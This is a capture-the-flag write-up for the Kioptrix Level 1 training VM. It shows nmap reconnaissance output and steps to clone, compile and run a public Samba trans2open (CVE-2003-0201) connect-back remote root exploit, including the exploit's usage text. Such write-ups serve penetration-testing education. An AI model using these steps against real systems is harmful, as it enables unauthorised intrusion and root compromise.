


# Kioptrix: Level 1

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges

Let discover the ip address of machine

```
sudo netdiscover -I ens33
```

<figure><figcaption></figcaption></figure>

Lets now use nmap

```
nmap  -A  192.168.100.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 22:14 +03
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 16.67% done; ETC: 22:15 (0:00:30 remaining)
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 22:15 (0:00:02 remaining)
Nmap scan report for 192.168.100.39
Host is up (0.00069s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2024-08-21T19:09:54+00:00; -5m15s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -5m15s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds

```

Nothing ineresting in finding subdomains

<figure><figcaption></figcaption></figure>

When asccesing in any usane same thing will be in mtrg and manual

<figure><figcaption></figcaption></figure>

I found the version of machine in smb server in Metasploit framework in smb\_verion module is Samba 2.2 1a

Exploit with details in link


Samba versions 2.2.0 to 2.2.8

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they apparently do not allow anonymous access to I



Exploit with detail&#x20;


```
Git clone https://github.com/KernelPan1k/trans2open-CVE-2003-0201.git
```

Then cd to it

```
Then gcc trans2open.c -o exploit then 
```

```bash
Chmod +x exploit 
```

```
./exploit -h 
Samba < 2.2.8 Remote Root exploit by Schizoprenic
Connect back method, Xnuxer-Labs, 2003.
Usage  : ./exploit <type> <victim> <your_ip>
Targets:
         0 = Linux
         1 = FreeBSD/NetBSD
         2 = OpenBSD 3.0 and prior
         3 = OpenBSD 3.2 - non-exec stack

```

**Root User :**&#x20;

<figure><figcaption><p>root user</p></figcaption></figure>

